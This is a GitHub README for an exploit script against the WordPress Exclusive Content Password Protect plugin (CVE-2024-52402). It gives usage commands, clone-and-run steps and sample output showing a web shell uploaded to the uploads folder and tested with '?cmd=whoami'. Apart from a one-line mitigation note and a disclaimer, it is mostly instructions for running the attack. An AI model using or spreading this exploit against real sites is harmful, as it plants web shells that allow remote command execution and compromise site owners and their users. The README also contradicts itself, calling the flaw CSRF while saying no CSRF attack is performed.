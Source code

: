 # 🚀 Exploit for CVE-2024-52402: WordPress Exclusive Content Password Protect Plugin <= 1.1.0

## 🛡️ Overview

This exploit targets a Cross-Site Request Forgery (CSRF) vulnerability in the WordPress Exclusive Content Password Protect plugin, versions up to and including 1.1.0. This vulnerability allows an attacker to upload a web shell to the web server, leading to potential remote code execution.

### 📅 Details

- **Published:** 2024-11-19
- **CVE ID:** CVE-2024-52402
- **Plugin Version:** Exclusive Content Password Protect <= 1.1.0
- **Severity:** CRITICAL (CVSS 9.6)


## ⚙️ Usage

To exploit this vulnerability, you need to provide the target WordPress site URL, a valid WordPress username, and password. The exploit script will log in to the WordPress site and attempt to upload a web shell.

### 🔧 Command

```sh
python CVE-2024-52402.py -u <target> -un <username> -p <password>
```

### 🛠️ Options

```
usage: CVE-2024-52402.py [-h] -u URL -un USERNAME -p PASSWORD

Exploit for ECVE-2024-52402 By | Nxploit, Khaled ALenazi

options:
  -h, --help            show this help message and exit
  -u, --url URL         Target WordPress site URL
  -un, --username USERNAME
                        WordPress username
  -p, --password PASSWORD
                        WordPress password
```

### 🌟 Example

```sh
python CVE-2024-52402.py -u http://target/wordpress -un admin -p admin
```

## 🚀 Output Example

```sh
[+] Plugin version detected: 1.1.0
[+] Logged in successfully.
[!] Exploit completed! Web Shell uploaded: http://target/wordpress/wp-content/uploads/nxploit.php
[*] Test with: http://target/wordpress/wp-content/uploads/nxploit.php?cmd=whoami
```

## 📜 Description



This script exploits the CSRF vulnerability in the Exclusive Content Password Protect plugin to upload a Web Shell
 to the WordPress server. However, it does not execute a CSRF attack 
directly; instead, it focuses on leveraging the plugin’s file upload 
functionality to achieve exploitation.
## 👨‍💻 How to Run the Script

1. **Clone the Repository**
   ```sh
   git clone https://github.com/Nxploited/CVE-2024-52402.git
   cd CVE-2024-52402
   ```

2. **Install Requirements**
   Ensure you have `requests` library installed:
   ```sh
   pip install requests
   ```

3. **Run the Script**
   Use the following command to execute the script:
   ```sh
   python CVE-2024-52402.py -u http://target/wordpress -un admin -p admin
   ```

## 🛡️ Mitigation

To mitigate this vulnerability, update the Exclusive Content Password Protect plugin to the latest version where this issue has been fixed.

## ⚠️ Disclaimer

This script is intended for educational purposes only. Unauthorized use of this script against systems that you do not have explicit permission to test is illegal and unethical.


***Exploit By: Nxploit , Khaled alenazi.***
